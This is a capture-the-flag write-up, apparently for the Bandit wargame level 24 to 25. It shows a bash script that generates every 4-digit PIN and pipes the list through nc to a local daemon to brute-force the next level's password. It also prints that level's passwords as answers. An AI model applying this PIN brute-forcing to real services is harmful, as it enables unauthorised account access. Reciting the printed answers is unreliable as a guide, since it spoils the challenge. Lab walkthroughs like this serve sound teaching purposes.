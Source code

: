 # Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution

* Step1

  ```shell
  ./bandit_login.sh bandit24 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
  ```

* Step2

  ```shell
  bandit24@bandit:~$ vi /tmp/generate_passdict.sh
  
  #!/bin/bash
  rm -rf /tmp/passdict.txt
  pass='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
  for i in `seq 0 9999`
  do
    printf "%s %04d\n" $pass $i >> /tmp/passdict.txt
  done
  echo "generate passdict.txt done"
  ```

* Step3

  ```shell
  bandit24@bandit:~$ sh /tmp/generate_passdict.sh
  generate passdict.txt done
  ```

* Step4

  ```shell
  bandit24@bandit:~$ cat /tmp/passdict.txt | nc localhost 30002 | tail -n 3 | head -n 1
  The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
  ```

  